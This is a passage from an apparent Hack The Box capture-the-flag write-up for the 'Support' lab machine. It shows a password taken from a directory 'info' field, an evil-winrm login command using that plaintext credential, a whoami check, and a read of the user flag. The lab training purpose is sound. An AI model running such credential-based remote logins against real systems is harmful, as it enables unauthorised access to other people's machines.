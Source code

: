 <img src="./screenshots/support_password.png" alt="support" />
</p>

> I see the `info` field whose value - is the `user's password`. This is our `Initial Access`.

> We have a valid account - `support:Ironside47pleasure40Watchful` so we connect via `winrm`:

```bash

evil-winrm -i support.htb -u 'support.htb\support' -p 'Ironside47pleasure40Watchful'

```
```bash

*Evil-WinRM* PS C:\Users\support\Documents> whoami
support\support
*Evil-WinRM* PS C:\Users\support\Documents>

```
> I get the **first flag** in the directory - `C:\Users\support\Desktop`:

```bash

*Evil-WinRM* PS C:\Users\support\Desktop> type user.txt
ac603aefe3f446533205f2bb9c890369
*Evil-WinRM* PS C:\Users\support\Desktop>

```
